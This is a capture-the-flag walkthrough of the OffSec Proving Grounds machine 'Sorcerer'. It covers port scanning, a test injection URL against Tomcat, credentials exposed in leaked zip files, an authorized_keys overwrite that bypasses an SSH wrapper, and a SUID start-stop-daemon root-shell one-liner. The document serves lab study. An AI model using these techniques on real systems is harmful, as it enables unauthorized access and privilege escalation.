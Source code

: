 # Sorcerer
* Origin: Proving Grounds (OffSec)
* Difficulty: Intermediate
* OS: Linux

## Enumeration
Initial nmap scan shows a few interesting open ports, notebly a bunch of Microsoft services as well as web servers on port 80 and 8080...

```
nmap -A -oN nmap_sorcerer 192.168.x.x
```
![](img/nmap.png)

The port 80 home 404s and directory fuzzing yielded nothing. Port 8080 looks a little more juicy.

![](img/tomcat_home.png)

Some quick research on Apache Tomcat 7.0.4 shows a potential code injection vulnerability: https://www.exploit-db.com/exploits/35011

Fuzzing reveals a /manager/html directory... plugging in a test injection (needs some tweaking) unintentionally gets us an error showing Apache Tomcat 9.0.38 is possibly what is actually running despite what is shown on the home page. Interersting.
```
http://192.168.230.100:8080/manager/html/sessions?path=/&sort=[alert("123");]
```
![](img/tomcat_error.png)

Will revisit this if nothing juicier shows up on the other ports. Full nmap scan for all ports keeps hanging, rustscan reveals a few more.
```
rustscan -a 192.168.230.100
```
![](img/rustscan.png)

After curl-ing a few of the ports at the end of the list we see 7742 is a web server:

![](img/port7742_home.png)

## Foothold on Port 7742
Spidey senses are tickled. Directory fuzzing port 7742:
```
feroxbuster -u http://192.168.230.100:7742
```
Find a directory of zip files...

![](img/dirfuzz_7742.png)

![](img/zipfile_dir_7742.png)

Each contains the home directory for the respective user. Max's home contains a few interesting files:

![](img/max_home.png)


The tomcat config XML has possible credentials that don't work on the port 7742 login but may be worth revisiting somewhere on port 8080:
```
...
  <role rolename="manager-gui"/>
  <user username="tomcat" password="VTUD2XxJjf5LPmu6" roles="manager-gui"/>
...
```
SSHing in with Max's private key doesn't work either, likely because of the scp wrapper script which we happen to have a copy of.

![](img/scp_wrapper.png)

The rules in authorized_keys shows that the tomfoolery is happening because this script is ran when we try to ssh in.

![](img/auth_keys.png)

Removing the rules and SCPing the updated authorized_keys file overwrites the original one and allows us to SSH in.
```
scp -O -i id_rsa authorized_keys max@192.168.230.100:/home/max/.ssh/authorized_keys
```

![](img/ssh_in_max.png)

Enumerating the home directory shows there is an additional user named dennis whose directory contains the local.txt flag.

## Privilege Escalation
Machine info:
```
uname -a
Linux sorcerer 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64 GNU/Linux
```
Quick manual enum of a few directories and permissions didn't yield anything. Transferred linpeas script to the target and ran, during which a SUID binary jumped out:

![](img/linpeas_suid.png)

Wasn't immediately familiar with start-stop-daemon but quick research shows we have a potentially easy PE vector: https://gtfobins.github.io/gtfobins/start-stop-daemon/

```
./start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
```
![](img/privesc.png)

The proof.txt flag is in /root.

